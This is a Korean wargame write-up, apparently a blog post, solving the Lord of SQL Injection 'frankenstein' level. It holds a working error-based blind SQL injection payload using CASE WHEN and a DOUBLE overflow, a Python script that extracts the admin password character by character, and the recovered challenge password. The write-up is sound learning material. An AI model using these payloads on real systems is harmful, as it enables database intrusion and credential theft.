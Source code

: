 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - frankenstein 문제풀이"
excerpt_separator: <!--more-->
comments : true
categories : [Wargame/Lord of SQL Injection]
tags:
  - Write-up
  - Lord of SQL Injection
---
```


용 시리즈 끝났더니 너무 어렵다 ㅠㅠ  

물론 풀타임으로 계속 고민하진 않았지만 이거 푸는데 너무 오래걸렸다.  

드디어 풀었다!  

<!--more-->

코드는 다음과 같다.  

```php
---------------------------------------------------------------------------------------------------------
query : select id,pw from prob_frankenstein where id='frankenstein' and pw=''
---------------------------------------------------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(|\)|union/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id,pw from prob_frankenstein where id='frankenstein' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if(mysql_error()) exit("error");

  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_frankenstein where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("frankenstein");
  highlight_file(__FILE__);
?>
```

문제 보자마자 읭? 했다.  

일단 괄호가 다 필터링 되어있다.  

근데 `error`를 뱉어주니, `Error Based Blind SQL Injection` 같은데, 문제는 `union`도 필터링 되어 있기 때문에 이 전에 문제를 풀기 위해 사용했던 서브쿼리에서 오류 발생시키기 방법을 사용하지 못한다는 거다.  

일단 초점은 맞췄던 것은 `조건문을 쓰는데 괄호 없이 어떻게 사용하는가!` 였다.  

서브쿼리를 괄호 없이 쓰는 법이 있나... 좀 오래 고민했는데, 다 풀고나니 내가 MySQL 문법만 제대로 알았더라도 이미 풀고도 남았던 문제였다.  

~~바보 인증 또함~~  

내가 사용한 문법은 다음과 같다.  

```
case when 조건 then 참일 때 else 거짓일 때 end
```

이렇게 하면 괄호 없이도 조건문을 사용할 수 있다.  

사실 이거 한참 전에 한번 시도해 봤던 문법인데, 뒤에 `end`를 붙여야 한다는 사실을 몰랐다.  

그래서 뭘 해도 오류가 나길래 `아 이거 안되는 건가보다` 이러고 넘겼는데, 오늘 다시 인터넷에 찾아보니 뒤에 `end`가 있더라.  

`혹시나...?` 하고 뒤에 `end`를 붙여서 내 서버에서 테스트 해 보니 매우 잘ㅋ됨ㅋ  

뭔가 갑자기 신나져서 막 코드 짜서 바로 돌려보았다.  

그랬더니 `pw` 값을 얻을 수 있었다.  

문제를 풀기 위해서 사용한 전체 쿼리는 다음과 같다.  

```
pw=1' or case when id='admin' and pw like 'a%' then 9e307*2 else 0 end#
```

이러면 만약 `id='admin' and pw like 'a%'`가 참일 경우에는 `9e307*2`가 실행되고 아닐 경우에는 `0`을 실행한다.  

그런데 `9e307*2`는 MySQL에서 `ERROR 1690 (22003): DOUBLE value is out of range in '(9e307 * 2)'`라는 오류를 준다.  

때문에 문제에서는 `error`만을 출력한 후 `exit` 하게 된다.  

`pw like 'a%'`는 이 전에도 한번 사용한 적이 있는데, `like`을 사용 할 경우 정규표현식 처럼 사용할 수 있다.  

`%`가 `모든 문자`를 의미하기 때문에 `a%`라고 하면 `a로 시작하고 뒤에 어떤 문자열이라도 붙어 있는 경우`를 체크한다.  

즉 `pw='a%'`는 `apple`, `abc` 모두 참이 나온다.  

이를 바탕으로 코드를 짜면 아래와 같다.  

```python
import urllib2
import urllib
import requests

flag = ""

url = "http://los.rubiya.kr/frankenstein_b5bab23e64777e1756174ad33f14b5db.php?pw="
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find password"

for j in range(1, 40):
	found = False
	for i in range(48, 128):
		try:
			query = url + "1' or case when id='admin' and pw like '" + flag +  chr(i) + "%' then 9e307*2 else 0 end%23"
			r = requests.post(query, cookies=session)
		except:
			print "[-] Error occur"
			continue

		if '<br>error' in r.text:
			flag += chr(i)
			print "[+] Found", str(j), ":", flag
			found = True
			break
	if not found:
		print "[+] Found password finished"
		break

print "[+] Found password : ", flag
print "[+] End"
```

그 결과 아래와 같이 무려 `한번에!` 값을 구할 수 있었다.  

좀 간만에 오류 없이 한방에 나와서 기분이 좋았다.  

아 아니구나 `두 번 만에` 나왔다.  

```
$ python ex.py 
[+] Start
[+] Find password
[+] Found 1 : 0
[+] Found 2 : 0D
[+] Found 3 : 0DC
[+] Found 4 : 0DC4
[+] Found 5 : 0DC4E
[+] Found 6 : 0DC4EF
[+] Found 7 : 0DC4EFB
[+] Found 8 : 0DC4EFBB
[+] Found password finished
[+] Found password :  0DC4EFBB
[+] End
```

이번에도 소문자로 입력하면 된다.  

아예 비교하는 대상 문자열을 내가 알파벳 소문자로 두면 될텐데 뭔가 귀찮아서 걍 `아스키코드 숫자 ~ 문자` 범위로 하다보니 맨날 대문자가 먼저 나온다.  

언젠간 고치겠지 뭐...  

아래처럼 입력하면 문제를 풀 수 있다.  

```
?pw=0dc4efbb
```

씐난다!  

기분 좋게 집 갈 수 있다!  

```php
------------------------------------------------------------------------------------------------------------------------
query : select id,pw from prob_frankenstein where id='frankenstein' and pw='0dc4efbb'
------------------------------------------------------------------------------------------------------------------------

FRANKENSTEIN Clear!
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(|\)|union/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id,pw from prob_frankenstein where id='frankenstein' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if(mysql_error()) exit("error");

  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_frankenstein where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("frankenstein");
  highlight_file(__FILE__);
?>
```

`FRANKENSTEIN Clear!!`
